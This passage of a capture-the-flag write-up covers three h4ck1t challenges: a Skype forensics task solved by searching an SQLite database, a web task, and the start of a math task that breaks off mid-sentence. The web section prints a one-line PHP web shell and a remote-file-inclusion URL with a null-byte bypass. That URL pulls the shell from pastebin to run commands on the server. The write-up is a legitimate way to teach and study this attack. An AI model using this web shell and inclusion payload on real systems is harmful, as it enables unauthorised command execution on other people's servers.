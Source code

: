           <p name="7699" id="7699" class="graf graf--p graf-after--h3">In this problem, we are given a dump of some
            Corp User’s home folder. Most of the documents are useless, but what we are looking for is in the AppData
            folder. More specifically, the transmission of information happens over Skype, so I looked in <code
              class="markup--code markup--p-code">AppData\Roaming\Skype\live#3aames.aldrich</code>.</p>
          <p name="e494" id="e494" class="graf graf--p graf-after--p"><code
              class="markup--code markup--p-code">main.db</code> kinda stuck out, so I opened that first. It was an
            SQLite database of a bunch of different Skype data. I ended up finding the flag in the <code
              class="markup--code markup--p-code">Contacts</code> table, in the row containing the user <code
              class="markup--code markup--p-code">zog black</code>, under <code
              class="markup--code markup--p-code">province</code> and <code
              class="markup--code markup--p-code">city</code> columns apparently. The flag was <code
              class="markup--code markup--p-code">h4ck1t{87e2bc9573392d5f4458393375328cf2}</code>.</p>
          <h3 name="16a6" id="16a6" class="graf graf--h3 graf-after--p">Mexico (150)</h3>
          <p name="5e37" id="5e37" class="graf graf--p graf-after--h3">If you click around the navigation bar of the
            website, you’ll notice that the pages are loaded by <code
              class="markup--code markup--p-code">index.php?page=example</code>. It probably includes pages through
            some naive include function without any sanitation, although it appends <code
              class="markup--code markup--p-code">.php</code> to the end of the filename.</p>
          <p name="8bdd" id="8bdd" class="graf graf--p graf-after--p">To bypass this, we just stick a <code
              class="markup--code markup--p-code">%00</code> null character to the end of our URL. Then PHP stops
            reading when it hits that and won’t append <code class="markup--code markup--p-code">.php</code> after the
            file. But what file can we include to find the flag?</p>
          <p name="a0e1" id="a0e1" class="graf graf--p graf-after--p">It occurred to me that if we could include any
            file, we could set up a pastebin containing an executable PHP code, and then include it. The PHP code I
            included looks like this:</p>
          <pre name="cd28" id="cd28"
            class="graf graf--pre graf-after--p">if (isset($_GET[‘cmd’]))<br> echo system($_GET[‘cmd’]);<br>?&gt;</pre>
          <p name="4372" id="4372" class="graf graf--p graf-after--pre">Stick that in a pastebin or something, and
            then include it in your URL like this:</p>
          <pre name="5f6d" id="5f6d"
            class="graf graf--pre graf-after--p">http://91.231.84.36:9150/index.php?page=http://pastebin.com/raw/icSpe0F0%00</pre>
          <p name="e164" id="e164" class="graf graf--p graf-after--pre">Now you can execute shell commands from the
            URL. Doing an <code class="markup--code markup--p-code">ls</code> on the current directory reveals a file
            called <code class="markup--code markup--p-code">sup3r_$3cr3t_f1le.php</code>. If you <code
              class="markup--code markup--p-code">cat sup3r*</code> then you should be able to get the flag: <code
              class="markup--code markup--p-code">h4ck1t{g00d_rfi_its_y0ur_fl@g}</code>.</p>
          <h3 name="4b38" id="4b38" class="graf graf--h3 graf-after--p">Mongolia (100)</h3>
          <p name="e011" id="e011" class="graf graf--p graf-after--h3">In this problem we are asked to connect to
            <code class="markup--code markup--p-code">ctf.com.ua:9988</code> and solve math problems. We told <code
              class="markup--code markup--p-code">C = A ^ B</code> and then given C, we are asked to find A and B.
            Problem is, the C that they give are sometimes hundreds of digits long. Brute forcing directly is not a
            good idea.
          </p>
          <p name="486d" id="486d" class="graf graf--p graf-after--p">The algorithm we used was to prime-factorize C,